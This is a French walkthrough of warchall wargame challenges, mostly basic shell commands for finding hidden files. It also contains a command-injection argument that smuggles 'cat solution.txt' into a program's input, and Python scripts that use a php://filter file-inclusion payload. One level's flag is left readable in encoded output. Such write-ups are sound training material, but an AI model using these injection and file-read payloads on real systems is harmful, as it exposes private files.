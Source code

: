 ## 00_welcome

La solution pour ce premier challenge warchall se trouve dans le fichier README.md. Pour affichier son contenu, on peut utiliser la commande cat:
```
cat README.md
```

## 01_choice_tree
Pour commencer ce challenge, il faut d'abord executer la commande __ls__ pour voir le contenu du repertoire actuelle. On a plusieurs dossier et pour eviter de fouiller chaque dossier pour trouver la solution, on peput executer la commande :
```
du -b -a
```
qui affiche tout les contenues des dossier et sous-dossier. On peut apercevoir alors une fichier SOLUION.txt dans __blue/hats/grey/solution/patience__ et pour voir son contenu il suffit juste d'executer la commande :
```
cat ./blue/hats/grey/solution/patience/SOLUTION.txt
```
## 02
Comme on a fait dans le challenge précédent, on execute directe la commande 
```
du -b -a
```
pour voir tout son contenu. Sur la sortie affiché, après avoir examiné tout les contenu avec la command __cat__, on peut trouver la solution dans __./.porb/.solution__

## 03

Dans ce challenge, si on commence avec la commande __ls__ ce qui liste le contenu du repertoire, rien ne s'affiche à la sortie, donc le resultat est probablement dans un fichier caché. Pour afficher ce fichier caché on execute la commande:
```
ls -al
```
ce qui liste tout le contenue du repertoire et les autorisations qui vont avec, y compris les fichier cachés. On peut alors voir un fichier nommé __bash_history__ et pour voir son contenu il suffit de faire:
```
cat ./.bash_history
```
Et on a notre flag

## 04_kwisatz 

Dans ce repertoire on a deux fichier: __README2.txt__ et __README2.md__, dans le fichier README2.txt, il y a un texte indiquant qu'il y a quelque chose de spéciale dans README2.md, si on execute la commande cat sur ce fichier, il affiche __no read permission__ ce qui veut dire que ce fichier n'a pas d'autorisation de lecture, pour ajouter cette autorisation, il faut executer la commande __chmod__ suivie de __+r__ qui signifie read:
```
chmod +r README2.md
```
Avec les autorisation ajouté nous pouvons maintenant voir son contenu et avoir notre flag.
```
cat README2.md
```

## 05_privacy

Dans ce challenge, il y a un fichier README.md dans le repertoire, il suffit juste donc d'executer la commande cat sur le fichier pour voir son contenu, rien de plus.


## 10_choose_your_path

#### Étape 1 : Allez dans /home/level/10_choose_your_path.

Il y a 04 fichiers dans ce répertoire, mais nous nous intéressons ici à charp.c (le fichier de code C), charp l'exécutable compilé de charp.c et solution.txt.

La clé de ce niveau est de parvenir à faire en sorte que charp produise une sortie d'échec de sortie.

#### Étape 2 : Créez un fichier dans votre répertoire utilisateur en exécutant cette commande : touch /home/user/username/un_fichier.

Il faut remplacer username par le nom utilisé dans le serveur, ici mon nom est judicael ce qui fait que je dois execute la commande:
```
touch /home/user/judicael/un_fichier
```

Étape 3 : Maintenant, vous devez écrire cette ligne de commande : 

```
./charp "randomWords; cat solution.txt > /home/user/judicael/un_fichier.
```

Voici ce que fait cette commande: 

    Le premier argument [randomWords] : mettez simplement un mot aléatoire là-dedans, ce premier argument est nécessaire pour remplir la condition de produire un EXIT_FAILURE.
    Deuxième argument [solution.txt>~/un_fichier] : cet argument envoie le contenu de solution.txt vers le fichier que nous avons créé à l'étape 2 après l'échec de sortie


On obtien ceci dans la sortie: 

```
Counting randomWords; cat solution.txt> /home/user/judicael/yourfile ... 
/usr/bin/wc: randomWords: No such file or directory
Cannot scan! Sorry!
/usr/bin/wc: randomWords: No such file or directory
Cannot scan! Sorry!
Floating point exception
```
Exactement ce que l'on souhaite. Maintenant on va dans le repertoire ou on a créer notre fichier de toute à l'heure, c'est à dire dans __/home/user/judicael/__ , et il ne reste plus qu'à afficher le contenu du fichier avec la commande cat:

```
cat un_fichier
```
Le contenu est ceci (le flag est censuré):

    #!/C:\windows\system32\ed

    Congratulations hacker,

    You have achieved what only a few achieve.
    Kinda.

    The flag or solution for this challenge is: ***************

## 11_choose_your_path2


## 12_pytong

Pour avoir notre flag sur ce challenge, il nous faut executer un fichier executable __pytong__ présent dans ce repertoire suivie de quelques arguments.

```
./pytong <(echo foo)>
```
Il affiche alors dans la sortie des text et juste en bas il y a une ligne __\<?php return '********************'?>__, les étoiles est une phrase qui est notre flag, mais il ne faut pas l'afficher dans le write up

## 14_live_fi

Pour ce challenge nous avons besoin d'envoyer une requête spécifique à l'url du challenge: __http://lfi.warchall.net/index.php__ .Pour se faire, nous allons utiliser le script python ci-dessous:

```Python
import requests


url = "http://lfi.warchall.net/index.php"

params = {
    "lang": "php://filter/convert.base64-encode/resource=solution.php"
}

r = requests.get(url, params=params, verify=False)
print (r.content)

```

Ce code envoye une requete à l'url et accéder au fichier solution.php en le convertissant en base 64. En executant le code, on obtient dans la sortie ceci :

```
PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K
```
Pour le moment cela ne ressemble pas au flag qu'on recherche, et pourtant c'est notre flag mais il faut encore le décoder. Comment faire? C'est simple il existe sur internet des sites qui propose ce genre de service. Après avoir décodé notre flag, on obtien du texte lissible, y compris notre flag.

## 15_live_rfi

Les étapes pour trouver le flag pour ce challenge est le même que pour __14_live_fi__ , la seul différence est l'url pour faire la requête. Il faut donc faire un petit changement dans notre code python

```Python
import requests

url = "http://rfi.warchall.net/index.php"

params = {
    "lang": "php://filter/convert.base64-encode/resource=solution.php"
}

r = requests.get(url, params=params, verify=False)
print (r.content)

```
Ensuite il faut juste décoder la sortie obtenu.
